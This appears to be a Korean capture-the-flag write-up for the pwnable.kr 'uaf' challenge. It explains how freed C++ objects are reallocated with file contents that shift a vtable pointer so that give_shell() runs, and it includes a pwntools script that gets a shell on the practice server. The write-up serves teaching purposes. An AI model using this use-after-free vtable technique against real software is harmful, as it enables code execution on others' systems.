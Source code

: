 # [pwnable.kr] uaf

> Mommy, what is Use After Free bug?
>
> ssh uaf@pwnable.kr -p2222 (pw:guest)

## Bug

`Man`과 `Woman`이 할당된 상태의 메모리 구조는 다음과 같다.

![image](https://github.com/user-attachments/assets/60d405de-b511-4975-a0ad-3c5f11bbad3c)

Vtable은 `introduce()`와 `give_shell()`의 주소를 저장하고 있다.

![image](https://github.com/user-attachments/assets/71cda493-724b-44c9-a51b-1e96162cf1ad)

`Man::introduce()`를 호출하는 과정을 보면,

![image](https://github.com/user-attachments/assets/58a00b61-92a7-44d8-b3e3-f2707dd03811)

Chunk로부터 vtable의 주소(`0x401570`)를 가져오고, 그 주소에 8을 더한 위치에 저장된 함수(`introduce()`)를 호출한다. 이 과정은 `Man`과 `Woman`이 free된 상태에서도 동일하게 진행된다.

```c++
/* uaf.cpp */

int main(int argc, char* argv[]){
	Human* m = new Man("Jack", 25);
	Human* w = new Woman("Jill", 21);

	size_t len;
	char* data;
	unsigned int op;
	while(1){
		cout << "1. use\n2. after\n3. free\n";
		cin >> op;

		switch(op){
			case 1:
				m->introduce();
				w->introduce();
				break;
			case 2:
				len = atoi(argv[1]);
				data = new char[len];
				read(open(argv[2], O_RDONLY), data, len);
				cout << "your data is allocated" << endl;
				break;
			case 3:
				delete m;
				delete w;
				break;
			default:
				break;
		}
	}

	return 0;	
}
```

`3. free`로 `m`과 `w`를 삭제하면 size가 `0x20`인 chunk 두 개가 free된다. 이 상태에서 `2. after`로 size가 `0x20`인 chunk를 두 번 할당받으면 삭제된 순서의 반대로 `w`와 `m`이 할당된다. Chunk에는 임의의 파일의 내용을 넣을 수 있기 때문에, `Man`의 vtable 주소가 원래보다 8만큼 작아지게 한 후 `1. use`를 실행하면 `introduce()`보다 8바이트만큼 앞쪽에 있는 `give_shell()`이 호출되어 shell을 획득할 수 있다.

## Exploit

![image](https://github.com/user-attachments/assets/c285edb5-e545-4aa9-8931-da8a622d289b)

```python
from pwn import *

p = ssh("uaf", "pwnable.kr", 2222, "guest").process(
    ["/home/uaf/uaf", str(3), "/tmp/h0meb0dy/payload"]
)

sl = p.sendline


def use():
    sl(b"1")


def after():
    sl(b"2")


def free():
    sl(b"3")


free()  # free Man and Woman
after()  # allocate Woman
after()  # allocate Man (sub 8 from vtable)
use()  # call give_shell()

p.interactive()
```

![image](https://github.com/user-attachments/assets/9b83f001-124a-40ce-aa0a-9e7e10863501)
